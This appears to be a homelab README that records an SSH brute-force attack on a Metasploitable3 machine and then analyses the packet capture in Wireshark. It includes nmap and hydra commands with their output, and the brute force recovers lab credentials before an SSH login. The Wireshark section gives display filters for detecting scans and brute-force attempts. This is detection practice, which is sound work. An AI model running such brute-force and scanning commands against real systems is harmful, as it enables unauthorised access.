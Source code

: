 # SSH Brute Force PCAP Analysis ```[Homelab Environment]```

* Attack Machine: ```10.38.1.111```
* Victim Machine: ```10.38.1.110```

> Note: PCAP file is available in this repository, if you've taken an interest in this project and would like to do some analysis yourself. The PCAP file does not have any generated traffic, and there isn't a lot of investigation behind it. However, this demonstrates traffic specifically from a SSH brute force attack.
# tcpdump

We specify tcpdump to write the capture information to ```/home/vagrant/ssh_cap``` on the eth0 interface and specify verbose output in the Metasploitable3 machine.

<img src="https://i.postimg.cc/85K9HQ4X/image.png">

# Exploitation

```console
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ ping 10.38.1.110 # Threw in some ICMP traffic.
PING 10.38.1.110 (10.38.1.110) 56(84) bytes of data.
64 bytes from 10.38.1.110: icmp_seq=1 ttl=64 time=1.00 ms
64 bytes from 10.38.1.110: icmp_seq=2 ttl=64 time=0.854 ms
64 bytes from 10.38.1.110: icmp_seq=3 ttl=64 time=1.04 ms
64 bytes from 10.38.1.110: icmp_seq=4 ttl=64 time=0.892 ms
64 bytes from 10.38.1.110: icmp_seq=5 ttl=64 time=0.949 ms
64 bytes from 10.38.1.110: icmp_seq=6 ttl=64 time=0.980 ms
64 bytes from 10.38.1.110: icmp_seq=7 ttl=64 time=0.959 ms
64 bytes from 10.38.1.110: icmp_seq=8 ttl=64 time=1.05 ms
^V64 bytes from 10.38.1.110: icmp_seq=9 ttl=64 time=0.975 ms
^C
--- 10.38.1.110 ping statistics ---
9 packets transmitted, 9 received, 0% packet loss, time 8062ms
rtt min/avg/max/mdev = 0.854/0.965/1.047/0.059 ms
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ nmap -sV -p 1-1000 10.38.1.110 # simulated 1000 ports getting scanned (a bit more realistic rather than "-p 22" parameter.
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-19 03:50 GMT
Nmap scan report for 10.38.1.110
Host is up (0.0018s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.7
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp open  ipp         CUPS 1.7
Service Info: Hosts: 127.0.2.1, METASPLOITABLE3-UB1404; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.63 seconds
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ hydra -L /home/parrot/Desktop/usernamelistlab.txt -P /home/parrot/Desktop/passlistlab.txt 10.38.1.110 ssh # Note, each word list has something like 60 entries. Although I didn't want to make them too big, I wanted some substance in the PCAP.
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-19 03:50:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3055 login tries (l:65/p:47), ~191 tries per task
[DATA] attacking ssh://10.38.1.110:22/
[STATUS] 494.00 tries/min, 494 tries in 00:01h, 2566 to do in 00:06h, 16 active
[STATUS] 472.00 tries/min, 1416 tries in 00:03h, 1644 to do in 00:04h, 16 active
[22][ssh] host: 10.38.1.110   login: vagrant   password: vagrant # Username & Password
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ ssh vagrant@10.38.1.110
vagrant@10.38.1.110's password: 
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 3.13.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
vagrant@metasploitable3-ub1404:~$ 
vagrant@metasploitable3-ub1404:~$ 
vagrant@metasploitable3-ub1404:~$ touch SSH_DONE.TXT.COMPLETE
```

After completing the exploitation and packet capture, we can move the PCAP via ```scp``` command.

![[Pasted image 20240319001217.png]]

# Analyzing The PCAP

We ended up capturing quite a few packs and so, I thought it'd be neat to try a few different display filters I've come up with to make some observations about the traffic.

* First, let's see the amount of ICMP requests that were made to our victim's machine by using: ```icmp and !ip.src==10.38.1.110``` - which shows us ICMP traffic and not the ip source of ```10.38.1.110```. Wireshark shows ```9``` displayed items.

<img src="https://i.postimg.cc/3wCY1yQw/image.png">

* Port scanning begins at 03:50:13 in the PCAP (UTC).
* We see characteristics of an open port TCP scan communication. By filtering the TCP reset flag, we can see that there is a reset for each open port on Metasploitable3.

Here are the returned open port results from earlier:
```bash
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.7
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp open  ipp         CUPS 1.7
```
<img src="https://i.postimg.cc/XvBKZymp/image.png">

And we can compare this to the reset flags using: ```tcp.flags.reset==1 and !ip.src==10.38.1.110``` display filter. You can find more supplementary reading at this [blog post](https://medium.com/@thismanera/nmap-detection-with-wireshark-e780c73a0823) about the various scan types and how they appear on wireshark. This may be a future project for myself, as the other scans fall out of the scope for this particular lab observation.

### SSH Analysis
<img src ="https://i.postimg.cc/MTgyWnH0/image.png">

By simply filtering the port (```tcp.port==22 and ip.src==10.38.1.111```), we can already note the malicious activity (huge amount of traffic being directed to port 22 - alternating attack src ports). Because SSH is secure, not much information can be observed through the TCP stream.

At the end of the attack we can flip over to our server as traffic source (```tcp.port==22 and ip.src==10.38.1.110```) -- The length jumps and we get some interesting info. From some supplementary reading, I learned successful authentication has an increased length.

<img src="https://i.postimg.cc/y8DdXsTt/image.png">

